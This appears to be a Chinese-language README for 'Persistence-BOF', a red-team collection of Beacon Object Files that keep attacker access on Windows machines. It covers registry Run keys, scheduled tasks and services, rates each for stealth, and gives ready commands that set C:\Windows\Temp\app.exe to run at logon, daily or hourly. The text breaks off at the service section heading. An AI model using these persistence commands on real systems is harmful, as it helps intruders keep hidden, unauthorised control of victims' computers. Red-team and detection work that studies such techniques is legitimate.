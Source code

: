 # Persistence-BOF

Windows 持久化机制 BOF 合集，支持三种常用持久化方法。

## 📋 功能列表

| BOF | 需要Admin | 隐蔽性 | 触发时机 | 文件 |
|-----|-----------|--------|----------|------|
| Registry Run Keys | HKLM需要 | ⭐⭐ | 用户登录 | `registry_run.x64.o` |
| Scheduled Tasks | 需要 | ⭐⭐⭐ | 可配置 | `schtask.x64.o` |
| Service Persistence | 需要 | ⭐⭐⭐⭐ | 系统启动 | `service_persist.x64.o` |

---

## 🚀 快速开始

### 1. Registry Run Keys
最简单的持久化方法，HKCU 不需要 admin 权限。

```bash
# 添加持久化 (HKCU)
persist registry-run --add MyApp C:\Windows\Temp\app.exe

# 添加持久化 (HKLM, 需要admin)
persist registry-run --add MyApp C:\Windows\Temp\app.exe --hklm

# 删除持久化
persist registry-run --remove MyApp
```

### 2. Scheduled Tasks
灵活的触发器，支持多种执行时机。

```bash
# 用户登录时运行
persist schtask --create MyTask C:\Windows\Temp\app.exe --trigger ONLOGON

# 每天运行
persist schtask --create MyTask C:\Windows\Temp\app.exe --trigger DAILY

# 每小时运行
persist schtask --create MyTask C:\Windows\Temp\app.exe --trigger HOURLY

# 删除任务
persist schtask --delete MyTask
```

### 3. Service Persistence
最隐蔽的持久化方式，系统级服务。

